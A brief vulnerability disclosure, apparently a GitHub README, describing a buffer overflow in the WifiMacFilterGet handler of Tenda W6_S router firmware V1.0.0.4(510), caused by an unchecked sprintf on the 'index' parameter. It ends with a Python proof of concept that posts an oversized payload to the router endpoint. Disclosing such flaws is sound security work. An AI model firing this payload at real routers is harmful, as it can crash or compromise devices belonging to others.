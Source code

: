 # buff overflow

## Tenda_W6_S

version: V1.0.0.4(510)

## Description:

There is a buff overflow in httpd/formWifiMacFilterGet

## Source:

you may download it from : https://www.tendacn.com/download/detail-3478.html

## Analyse:

![](3.png)

get value from index, then call sprintf, cause buff overflow

## POC

```
url = "http://192.168.1.13/goform/WifiMacFilterGet"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={'index': payload})
```
